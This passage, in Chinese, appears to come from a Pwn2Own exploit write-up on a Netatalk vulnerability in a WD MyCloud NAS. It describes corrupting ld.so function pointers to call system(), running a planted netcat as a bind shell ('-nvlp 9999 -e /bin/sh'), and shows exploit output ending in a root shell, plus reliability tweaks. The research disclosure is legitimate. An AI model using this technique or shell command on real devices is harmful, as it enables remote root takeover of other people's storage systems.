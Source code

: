 * `._mooncake`原始fork文件通过`mmap()`函数被映射进内存
* `memmove()`函数覆盖了`ld.so`的`.data`段，破坏`rtld_local._dl_rtld_lock_recursive`函数指针，将其篡改为`system()`函数的地址，破坏`rtld_local._dl_load_lock`的数据，篡改为要执行的shell命令
* 由于访问了非法的未映射的栈地址，`memcpy()`函数崩溃
* Netatalk的异常处理函数调用并进入`dl_open()`函数，由于上一步已经篡改了相关内容，因此会调用`system()`函数，并执行我们指定的任意shell命令

我们预先通过SMB协议在共享目录中放置了一个静态变异的`netcat`程序，并通过以下路径执行：`/mnt/HD/HD_a2/Public/tools/netcat -nvlp 9999 -e /bin/sh`。

下面是漏洞利用时的过程：

```
# ./mooncake.py -i 192.168.1.3
(12:26:23) [*] Triggering leak...
(12:26:27) [*] Connected to AFP server
(12:26:27) [*] Leaked libc return address: 0x7f45e23f809b
(12:26:27) [*] libc base: 0x7f45e23d4000
(12:26:27) [*] Triggering system() call...
(12:26:27) [*] Using system address: 0x7f45e24189c0
(12:26:27) [*] Connected to AFP server
(12:26:29) [*] Connection timeout detected :)
(12:26:30) [*] Spawning a shell. Type any command.
uname -a
Linux MyCloudPR4100 4.14.22 #1 SMP Mon Dec 21 02:16:13 UTC 2020 Build-32 x86_64 GNU/Linux
id
uid=0(root) gid=0(root) euid=501(nobody) egid=1000(share) groups=1000(share)
pwd
/mnt/HD/HD_a2/Public/edg
```

## Pwn2Own 笔记
当比赛时利用该漏洞时，第一次尝试失败在了地址泄露阶段。我们猜测相比于我们自己的测试环境，可能是由于目标环境的时机问题所导致的。因此我们修改了代码，在泄露地址之前引入一个`sleep()`，以确保samba有时间返回我们通过漏洞修改的数据。我们的第二次尝试获取了泄露地址，但是尝试通过telnet连接目标时再次失败了，因此我们在连接telnet之前又额外添加了一个`sleep()`，以确保`system()`命令被正确的执行。幸运的是这很有效，这说明单单添加额外的休眠时间足以修复不可靠的漏洞利用，我们在我们最后的第三次尝试成功了🙂。